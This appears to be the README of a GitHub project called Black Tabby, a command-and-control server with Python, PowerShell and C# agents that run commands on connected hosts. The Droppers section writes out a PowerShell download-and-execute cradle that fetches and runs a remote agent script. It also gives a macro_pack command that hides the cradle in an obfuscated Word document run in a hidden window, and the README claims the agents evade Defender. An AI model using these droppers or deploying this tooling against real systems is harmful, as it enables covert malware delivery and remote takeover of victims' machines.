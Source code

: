 # Black Tabby

Black Tabby is a Command & Control Server written in Python with agents written in python, powershell, C#


[![asciicast](https://asciinema.org/a/Cd53d45U1azyUZvlcbGdnOxDv.svg)](https://asciinema.org/a/Cd53d45U1azyUZvlcbGdnOxDv)





### Prerequisites
```
Docker
Python3
```

### Quick Setup

[![asciicast](https://asciinema.org/a/SeczUZSRttACRtMebp6S1iErA.svg)](https://asciinema.org/a/SeczUZSRttACRtMebp6S1iErA)

After Run BlackTabby.py to create the CouchDB View


### Setup

After docker and python3 is on your machine all you need to do is clone this repo and run the setup.sh file

```
git clone https://github.com/latortuga71/Black_Tabby.git
cd Black_Tabby
chmod +x setup.sh
pip3 -r install requirements.txt
./setup.sh
```

Then you will be asked to set the username & password for the CouchDB container and it will run on port 5984 of your local machine
It will also ask you for two secrets, a user-agent secret and an agent secret, these are very importing and are used when creating agents
so they can authenticate to your flask server. Which in turn communicates to the CouchDB container

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup1.JPG)

After that has successfully completed run the following command
```
python3 BlackTabby.py
```
You will be asked for the credentials provided as well as the ip address and port that the CouchDB container is running on which should be 127.0.0.1 5984 unless you set this up to run on a different server that the CLI interface will be running on. This will create a view in CouchDB that is neccesary for the CLI to function properly.

## Agents
So far the only agents that can be created through the CLI are python and powershell, i wrote a C# agent that has my loopback hardcoded, as well as the agent secrets if this is edited to suite anyones needs then it can also be used. The C# source folder is [Here](https://github.com/latortuga71/Black_Tabby/tree/master/Agents/C%23AGENT/CSHARPAGENT)

## Droppers
In the DropperStuff folder i was able to create word doc that ran the following code as a way of executing the powershell agent.

```
IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') 
```
I came across [MacroPack](https://github.com/sevagas/macro_pack) which creates and obfuscates dropper files for you go ahead and check it out is pretty awesome. That in conjunction with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) is a great combo. Below is command i used in macropack specifically.

```
echo "powershell.exe -windowstyle Hidden -c IEX(New-Object Net.WebClient).downloadString('http://10.0.0.150/Agent.ps1') -WindowStyle Hidden" | macro_pack.exe -t CMD -o -G  cmd.doc
```

## Creating Agents

There is an option on the CLI that allows you to create agents, it will ask you for the ip address and port it will be connecting to. In this case you do not enter the port 5984 which is CouchDB you would enter 9000 which is the flask server.
So if you are running the CLI and Server on same host, you would enter 127.0.0.1 and port 9000. After you will be asked for the two secrets specified during the bash setup script.

## Agent CLI (Work in progress)

Once you have connected to an agent just enter ? to see a list of options
* execute followed by a command will run a command and return the result
```
execute cmd
```
* get_all will return the full database document for that agent
* export json will write the json to a file.
```
export_json /tmp/json_output.txt
```

![](https://github.com/latortuga71/Black_Tabby/blob/master/setup3.JPG)

## Does it trigger antivirus tho?
As far as i know, the powershell and c# agents themselves dont trigger defender.

## Full Explanation eventually

Will write out full explanation eventually on blog for now below diagram is pretty good.
```

           ------------ 
           V           |
Agent -> Flask ---> CouchDB
 ^           |
 |           |
 |   	    V
 |   	    V
 ^           |
 |           |
 | <----------





```



